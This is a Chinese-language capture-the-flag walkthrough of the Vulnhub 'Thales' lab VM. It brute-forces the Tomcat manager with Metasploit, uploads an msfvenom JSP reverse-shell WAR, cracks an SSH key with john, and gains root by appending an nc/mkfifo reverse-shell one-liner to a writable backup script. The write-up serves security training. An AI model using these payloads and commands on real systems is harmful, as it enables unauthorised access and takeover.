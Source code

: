 ```yaml
---

title: Vulnhub--Thales
categories: [渗透靶场, Vulnhub]

---
```


## 渗透复现

1. Web站点访问，发现是Tomcat框架，但是该版本不存在CVE
2. MSF尝试爆破Tomcat后台账号密码，成功爆破
3. 进入Tomcat后台后利用上传war程序功能点，进行反弹shell
4. 获取shell后，利用root用户的shell文件成功提权

## 知识扩展

1. MSF模块爆破Tomcat后台账号密码
2. MSF模块生成JAVA后门war程序

## 靶机地址

https://www.vulnhub.com/entry/web-machine-n7,756/

## 主机发现

（1）攻击机

```python
192.168.88.128
```

（2）目标靶机

```py
192.168.88.132
```

## 信息收集

### 端口扫描

![image-20240828170226427](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281702492.png)

### 端口访问

![image-20240828170235947](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281702000.png)

![image-20240828170244250](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281702294.png)

### 目录扫描

![image-20240828170252918](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281702983.png)

### 目录爆破

```python
#对8080端口进行fuzz爆破
ffuf -u http://192.168.88.132:8080/FUZZ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -c -ic -e .txt,.zip,.php,html
```

![image-20240828170304802](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281703856.png)

### 目录访问

（1）RELEASE-NOTES.txt文件

![image-20240828170312716](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281703763.png)

（2）/examples/jsp/snp/snoop.jsp

![image-20240828170320524](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281703568.png)

（3）/examples/servlets/servlet/CookieExample

![image-20240828170326900](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281703941.png)

## 实施攻击

（1）目录除了泄露一些中间件信息之外，没有可用价值，因此尝试利用msf爆破后台密码

```python
search login tomcat
```

![image-20240828170335845](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281703903.png)

（2）msf爆破后台密码

```python
use 0
set rhosts 192.168.88.132
run
```

![image-20240828170348492](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281703571.png)

（3）war程序上传getshell

```python
#这里的话需要上传一个可执行程序，php也可上传，但是不可被解析执行
#msf生成java类的反弹shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.88.128  LPORT=8888 -f war -o revshell.war
```

![image-20240828170357816](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281703868.png)

![image-20240828170406805](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281704858.png)

（4）信息收集

![image-20240828175049956](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281750010.png)

![image-20240828170427960](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281704014.png)

![image-20240828170436687](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281704745.png)

（5）suid和sudo不具备提权条件，home目录继续收集其他文件信息

![image-20240828170446689](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281704755.png)

（6）.ssh文件中的私钥可以尝试解密，私钥为用户thales的密码

```py
/usr/share/john/ssh2john.py key.txt > key1.txt
john --wordlist=/usr/share/wordlists/rockyou.txt key1.txt
```

![image-20240828170500988](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281705070.png)

![image-20240828170509579](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281705649.png)

## 提权

（1）找到提示的备份文件，发现是shell文件并且具备可读可写可执行权

![image-20240828170526937](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281705015.png)

（2）执行反弹shell

```python
#此时8888端口正在使用，反弹回7777端口
#直接执行下面这条语句即可反弹shell，用vim打开的话不好添加
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.88.128 7777  >/tmp/f" >> backup.sh
```

![image-20240828175126658](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281751725.png)